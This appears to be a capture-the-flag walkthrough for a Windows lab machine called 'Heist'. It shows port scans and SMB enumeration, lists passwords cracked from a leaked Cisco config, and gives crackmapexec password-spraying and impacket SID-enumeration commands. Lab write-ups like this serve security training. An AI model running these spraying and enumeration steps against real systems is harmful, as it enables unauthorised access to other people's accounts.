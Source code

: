 # Heist

## NMAP

* Rustscan results

```console
PORT      STATE SERVICE      REASON
80/tcp    open  http         syn-ack ttl 127
135/tcp   open  msrpc        syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
5985/tcp  open  wsman        syn-ack ttl 127
49669/tcp open  unknown      syn-ack ttl 127

```

* Nmap results

```console
PORT      STATE SERVICE       REASON          VERSION
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-title: Support Login Page
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
445/tcp   open  microsoft-ds? syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


```

## enum4linux-ng

```bash
enum4linux-ng -A $IP

NetBIOS computer name: SUPPORTDESK
DNS domain: SupportDesk      
FQDN: SupportDesk

After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                        
OS version: '10.0'
OS release: '1809'
OS build: '17763'

```

## web

* Logging as guest leads us to forum page where a user reports trouble accessing his cisco router with his config file
* Upon taking a look at the config file, few users and passwords will be disclosed
* The listed cisco type 5 and 7 password can be cracked via hashcat/john
* $uperP@ssword
* Q4)sJu\Y8qz*A3?d
* stealth1agent

## sid-enum

* once we have the usernames and passwords we can use cme to check if we can login

```bash
crackmapexec smb $IP -u users.txt -p pass.txt --shares
```

* After that we can enumerate the users via impacket script lookupsid

```bash
impacket-lookupsid hazard:stealth1agent@$
--------------------------------------------
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```